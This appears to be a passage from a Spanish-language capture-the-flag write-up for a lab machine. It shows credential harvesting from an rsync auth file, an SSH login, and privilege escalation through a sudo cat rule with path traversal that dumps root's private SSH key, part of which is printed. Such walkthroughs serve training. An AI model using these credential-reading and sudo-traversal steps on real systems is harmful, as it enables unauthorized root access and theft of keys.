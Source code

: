 ```bash
/var/lib/dpkg/info/rsync.prerm
```

```bash
www-data@anaximandre:/home/chaz$ cat /etc/rsyncd.auth   
chaz:**************ado
```

Nos conectamos mediante ssh

```bash
❯ ssh chaz@10.0.2.33 
```

### User flag

```bash
chaz@anaximandre:~$ cat user.txt
************************00f696f1
```

## Escalacion de Privilegios

```bash
chaz@anaximandre:~$ sudo -l
Matching Defaults entries for chaz on anaximandre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chaz may run the following commands on anaximandre:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/chaz/*
```

Ya que tenemos la opcion de hacer cat a todo lo que este en nuestra carpeta chaz podemos copiar la clave id_rsa de root

```bash
chaz@anaximandre:~$ sudo -u root /usr/bin/cat /home/chaz/../../root/.ssh/id_rsa > rsa
chaz@anaximandre:~$ ls
rsa  user.txt
chaz@anaximandre:~$ cat rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAymVIJCfeVhY3wXQyz8tZrt+cHyKuDTTXN+NpIbM7EakMulk97ZHu
jNWDOMzF+f1jicidrEZkTjqCMLtwF4wpPNskUCAC7XjglhxifQWOUQXyRvkSPT690q6o+6
OfesMAs2CG+tfhhsfR2yqpC6v3UTbUdIcBUR3lp+bng6IlV6An5iWTBfI4Rd7VkWP9Cu7m
gfe6Gp8u6PE7R0lO4mzd5Sf8Tx06r1x/AVP9d2xl4NgvRmFM1bwGWVCN1NKX8e83dyHQoG
JCPFs76aNWsLfL2MaK1DLrrbRrytic+8/TNvJSqHVthX4CUMsa4tU0V9fi8phq2nG+Ny9N
qZVieX7ai1VY6M95vAI6Jser62YnAjftITMIIInEt7t0GAx7obwUtOH0Cg9wp7ttK6ou6r
99x2oI33gv0L8YhJhBOwWm+bj1SmWv7CFvlR04kDoMUxTtttwFryXPabHSMD29weuE7srn
lHYbinlTpSsMu1zkAsHdPPfICgF1P9KTVSU1Ay9FAAAFkBtj3CkbY9wpAAAAB3NzaC1yc2
EAAAGBAMplSCQn3lYWN8F0Ms/LWa7fnB8irg001zfjaSGzOxGpDLpZPe2R7ozVgzjMxfn9
[..... MORE ID_RSA .....]
```
